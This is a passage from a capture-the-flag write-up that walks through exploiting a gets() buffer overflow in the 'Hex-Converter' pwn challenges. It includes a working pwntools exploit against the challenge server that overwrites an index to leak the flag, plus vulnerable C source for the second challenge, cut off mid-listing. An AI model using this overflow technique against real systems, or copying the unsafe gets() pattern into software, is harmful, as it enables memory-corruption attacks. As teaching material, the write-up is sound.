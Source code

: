 Now, we know enough to be able to exploit this.

Using `gets(name)`, we can trigger a bufferoverflow, and override the `i` variable that is stored after name, and change it to whatever we want!

i is stored at `rbp-0x4`, name is stored at `rbp-0x20`, so we need `0x20-0x4=28` bytes to reach it. 

Now, what should we change it to?
When printing `name` to us, it uses this assembly lines to get the current character:

```
<+119>:	mov    eax,DWORD PTR [rbp-0x4]
<+124>:	movzx  eax,BYTE PTR [rbp+rax*1-0x20]
```
it takes `i`, and puts it in `eax`. then it reads `rbp-0x20+i`. to get the current character.

So in order to read the flag, which is stored in `rbp-0x60`, we need `i=-0x40` to reach it.

i is a regular int, so changing it to a negative number is possible.

Here is the final exploit:

```py
from pwn import *
p = remote('amt.rs' , 31630)

p.recvline()
p.sendline(b"A" * 28 + p32(0xffffffff - 0x40))

print(bytes.fromhex(p.recvline().decode()) )
```

Ez and fun challenge.

## Pwn/Hex-Converter2

this challenge is pretty much the same as hex1. here is the source code:
```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);

    int i = 0;

    char name[16];
    printf("input text to convert to hex: \n");
    gets(name);

    char flag[64];
    fgets(flag, 64, fopen("flag.txt", "r"));
    // TODO: PRINT FLAG for cool people ... but maybe later

    while (1)
    {
        // the & 0xFF... is to do some typecasting and make sure only two characters are printed ^_^ hehe
        printf("%02X", (unsigned int)(name[i] & 0xFF));

        // exit out of the loop
        if (i <= 0)
        {
            printf("\n");
            return 0;
        }
```